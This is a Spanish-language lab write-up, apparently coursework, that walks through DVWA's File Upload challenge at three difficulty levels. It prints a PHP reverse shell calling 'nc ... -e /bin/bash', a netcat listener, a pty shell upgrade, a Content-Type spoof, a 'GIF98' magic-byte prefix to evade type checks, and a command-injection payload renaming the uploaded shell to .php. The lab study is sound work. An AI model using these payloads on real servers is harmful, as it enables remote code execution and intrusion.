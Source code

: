 # FU

Las vulnerabilidades de subida de archivos se producen cuando un servidor web permite a los usuarios subir archivos a su sistema de archivos sin validar suficientemente aspectos como su nombre, tipo, contenido o tamaño.

## Bajo

Para realizar este nivel, primero debemos acceder a la página de subida de archivos, para ello accedemos a la página principal de DVWA y pulsamos en `File Upload`. Una vez en la página de subida de archivos, podemos observar que el servidor web permite subir archivos de cualquier tipo, por lo que podemos subir la reverse shell que hemos creado en el nivel de `File Inclusion`.

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

Una vez subida la shell, podemos comprobar como se ha subido correctamente.

![fileUploadedLow](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/fileUploadedLow.png)

A continuación, buscamos donde se ha subido el archivo  que según nos indica la respuesta del servidor es:

![fileIndexLow](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/fileIndexLow.png)

Ahora, podemos crear una escucha en el puerto 4000 para recibir la conexión de la reverse shell y  a continuación accedemos a la URL de la shell que hemos subido para ejecutarla.

```bash
nc -lvnp 4000
```

Una vez se establece la conexión, podemos comprobar que tenemos acceso al sistema.
Si se quiere, se puede hacer un upgrade a una shell interactiva con el comando: 

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

En la siguiente imagen podemos observar como hemos obtenido una shell interactiva y hemos podido ejecutar el comando `id` para comprobar que somos el usuario `www-data`.
![challenge-1](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/challenge-1.png)

## Medio

Al contrario que en el nivel bajo, en este nivel el servidor web solo permite subir archivos de tipo `jpeg` o `png`, por lo que no podemos replicar la mecanica del nivel anterior.

![error](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/error.png)

Para poder subir la shell, debemos cambiar el tipo de archivo a `jpeg` o `png` y para ello podemos utilizar Burp Suite para interceptar la petición y modificar la cabecera `Content-Type` de la petición para que sea `image/jpeg` o `image/png`.

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/intercept.png)

 Una vez interceptada la petición y modificada la cabecera, podemos enviar la petición y comprobar que se ha subido correctamente.

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/intercept.png)

Al igual que en el nivel anterior, podemos observar como se ha obtenido una shell interactiva y hemos podido ejecutar el comando `id` para comprobar que somos el usuario `www-data`.
![challenge-1](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/challenge-1.png)

## Alto

En este nivel, el servidor web solo permite subir archivos de tipo `jpeg` o `png` con la diferencia de que esta vez el servidor comprueba los primeros bytes del archivo para comprobar que el tipo de archivo es correcto.

Para poder evadir esta comprobación, podemos utilizar la técnica de `file signature` para cambiar los primeros bytes del archivo y que el servidor web lo reconozca como un archivo de tipo `jpeg` o `png` para ello hemos escrito `GIF98` al comienzo de nuestra reverse shell.

```php
GIF98
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

En la siguiente imagen podemos observar el contenido de nuestro fichero `shell.png` en un editor hexadecimal (`hexeditor`).

![hexeditor](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/hexeditor.png)

Una vez modificado el archivo, podemos subirlo al servidor web y comprobar que se ha subido correctamente.

![uploaded-high](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/uploaded-h.png)

Una vez subida, intentamos acceder a la shell mediante la uri que nos proporciona el servidor web y comprobamos que nos da un error como era de esperar.

![error-2](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/error-2.png)

Para lograr nuestro objetivo podemos intentar combinarlo con otra vulnerabilidad como es la `Command Injection` para poder acceder a la shell que hemos subido.

Para ello, podemos utilizar la siguiente payload:

```bash
|mv ../../hackable/uploads/shell.png ../../hackable/uploads/shell.php
```

Una vez ejecutada la payload, podemos acceder a la shell mediante la uri que nos proporciona el servidor web y comprobar que tenemos acceso al sistema.

![challenge](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/challenge-2.png)